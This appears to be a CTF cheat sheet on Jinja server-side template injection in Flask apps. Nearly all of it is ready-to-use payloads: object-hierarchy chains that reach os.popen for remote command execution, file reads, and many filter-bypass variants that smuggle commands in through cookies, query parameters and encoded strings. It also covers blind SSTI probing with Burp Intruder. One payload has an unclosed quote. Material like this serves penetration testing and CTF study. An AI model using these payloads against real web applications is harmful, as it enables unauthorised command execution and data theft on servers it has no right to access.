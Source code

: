 # Server-side Template Injection

Always be on the lookout for any `render_template_string()`!

## Jinja

### Basic injection

`{{7*7}}`

`{{config}}`

### RCE

The main goal of RCE through SSTI is to climb up the Python object hierachy, target is `__globals__.__builtins__.__import__`. 

Method 1:
1. Get `__class__` of any object
2. Get base Object class from the following *lists*
	* `__mro__`
		* Usually, the last item is the base Object.
	* `__bases__`
		* Usually, the only item is the base Object.
3. Get `__subclasses__()` and find a function that belongs to os or subprocess
	* `__subclasses__()` returns a list, to find the proper index:
		* Write a simple script (split output by comma, search for desired function's index)
		* CTRL+F and search "class", hit Enter until you reach desired function (index might be slightly off but can be faster than scripting)
		* Use Burp Intruder to fuzz (fast but overkill???)
4. The `__globals__` dict is in `__init__`
	* It should have `popen` (os) or `check_output` (subprocess)

> In Python 2, `string` is not directly under `object`, so `__base__[0]` twice

Method 2:
1. Get `__init__` of a Jinja object (self, cycler, joiner, namespace)
2. Get `__globals__`, a dict that has builtins at key `__builtins__`
3. `__builtins__` has `__import__` which we can use to import `os` 
	* Besides `__import__`, `__builtins__` also can have other functions like read(), eval() etc
	* It's however possible to set `__builtins__` to None, so this method is not foolproof
	* This method is more useful if you need to import certain modules that have the flag, rather than plain RCE


*Examples*

```py
{{''.__class__.__bases__[0].__subclasses__()[117].__init__.__globals__['popen']("ls").read()}}
{{''.__class__.__mro__[1].__subclasses__()[117].__init__.__globals__['popen']("ls").read()}}
{{self.__init__.__globals__.__builtins__.__import__('os').popen('ls').read()}}
{{cycler.__init__.__globals__.__builtins__.open("flag").read()}}
{{(cycler|attr(dict(__ini=a,t__=b)|join)|attr(dict(__glob=c,als__=d)|join))[dict(__buil=buil,tins__=tins)|join][dict(op=op,en=en)|join](dict(fl=fl,ag=ag)|join)|attr(dict(re=re,ad=ad)|join)()}}
```

### Filter bypass

#### No {{ or }}

```py
{% print self.__class__.__mro__[-1].__subclasses__()[117].__init__.__globals__["popen"]("whoami").read()[0] %}
```

#### [^/]

`werkzeug.url_fix` converts `\` into `/` (dependent on source code)

#### [^\.]

```py
{{self["__class__"]}}
{{self|attr("__class__")}}

{{''['__class__']['__mro__'][1]['__subclasses__']()[117]["__init__"]["__globals__"]["popen"]("ls")["read"]()}}
{{self|attr("__init__")|attr("__globals__")|attr("__getitem__")("__builtins__")|attr("__getitem__")("__import__")("os")|attr("popen")("ls")|attr("read")()}}
```

#### [^_]

```py
{{self["\x5f\x5fclass\x5f\x5f"]}}
{{self|attr("\x5f\x5fclass\x5f\x5f)}}
```

#### [^'"]

This one is more advanced. We can exploit the built-in request Object in Flask to pass in any strings we like.

For example: 
```py
{{ ''[request.args.get('class')].mro()[1][request.args.get('subclasses')]() }}
```

`http://url.com/?class=__class__&subclasses=__subclasses__`

#### Cookies

```py
{{self.__class__.__mro__[-1].__subclasses__()[117].__init__.__globals__[request.cookies.f](request.cookies.cmd).read()}}
(Cookies: f=popen; cmd=ls)
```

##### GET query params

```py
{{self.__class__.__mro__[-1].__subclasses__()[117].__init__.__globals__[request.args.f](request.args.cmd).read()}}
(/?f=popen&cmd=ls)
```

Other ways to do this:
* POST (request.values.f)
* Headers (request.headers.f)

#### Word blacklist

```py
{{()|attr(request.cookies.f|format(request.cookies.a))|attr(request.cookies.mro)[-1]}}
(Cookies: f=__cl%sss__; a=a; mro=__mro__)
```

#### [^\[\]]

```py
{{''.__class__.__mro__.__getitem__(-1).__subclasses__().__getitem__(117).__init__.__globals__.__getitem__(request.cookies.function)(request.cookies.cmd).read()}}
(Cookies: function=popen; cmd=ls)
```

#### [^'"\.0-9]

```py
{{lipsum[(dict(__globals__=x)|list)[False]][(dict(os=x)|list)[False]][(dict(popen=x)|list)[False]]([(dict(cat=x)|list)[False]|center,(dict(galf=x)|list)[False]|reverse]|join)[(dict(daer=x)|list)[False]|reverse]()}}
```

### Read variables

If the goal isn't RCE but to read the value of a variable of the current process (might not be possible via RCE), we can import main and expose the variable.

```py
{{ self.__init__.__globals__['__builtins__']['__import__']('__main__') }}
```

### Blind SSTI

Sometimes the app might not have proper output for you to get your results. This is similar to Blind SQLi.

```py
{% if self.__class__.__mro__[-1].__subclasses__()[117].__init__.__globals__["popen"]("whoami").read()[0] == 'r' %} 1 {% endif %}
```

Run it in Burp Intruder, don't forget to check for special characters like \n etc.


## References

* <https://chowdera.com/2020/12/20201221231521371q.html>

